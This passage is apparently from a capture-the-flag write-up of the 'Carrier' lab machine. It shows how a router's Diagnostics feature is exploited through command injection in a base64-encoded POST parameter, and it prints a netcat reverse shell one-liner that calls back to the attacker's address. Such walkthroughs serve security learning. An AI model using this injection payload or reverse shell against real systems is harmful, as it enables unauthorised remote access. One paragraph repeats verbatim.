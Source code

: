 ![img](/images/carrier-writeup/10.png)

We made it to the web interface! It only takes a few seconds of inspection to find an interesting feature in the Diagnostics tab:

![img](/images/carrier-writeup/11.png)

Clicking the "Verify status" button makes the page load what looks like the output of a shell command, and by examining the source code of the page we can find something incredibly useful to say the least:

![img](/images/carrier-writeup/12.png)

Clicking the "Verify status" button makes the page load what looks like the output of a shell command, and by examining the source code of the page we can find something incredibly useful to say the least:

![img](/images/carrier-writeup/13.png)

---

## Exploitation: getting user

From this we can conclude that the web application tells the user running the service what parameters to give to the Diagnostics script, and once the script is executed its output is received. Since we can control what parameters to give the script, and it appears like the script would be something that reports the current status of a service called quagga, we can just append a semicolon to it to terminate that instruction and insert our own, encode it in base64, send everything in a POST request, and we will have achieved RCE:

```shell-session
quagga;ls -la ---> cXVhZ2dhO2xzIC1sYQ==
```

![img](/images/carrier-writeup/14.png)

It worked and we can even see user.txt in the same folder! Before we grab it we can try to get proper shell access to the box though, we can do it with nc, with the "long version" of the reverse shell command, as it appears that the version installed doesn't support the -e flag:

```shell-session
quagga; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.67 9595 >/tmp/f
```

![img](/images/carrier-writeup/15.png)

I used Burp Repeater to send the modified POST request containing our nc payload after starting a listener on my own box, and as soon as the router executed the script I received a remote shell from it, which gave me root access to the device. Despite being root the root flag is nowhere to be found, so we will have to investigate and see if there is any other computer we have to interact with, but in the meantime we can read user.txt.

---
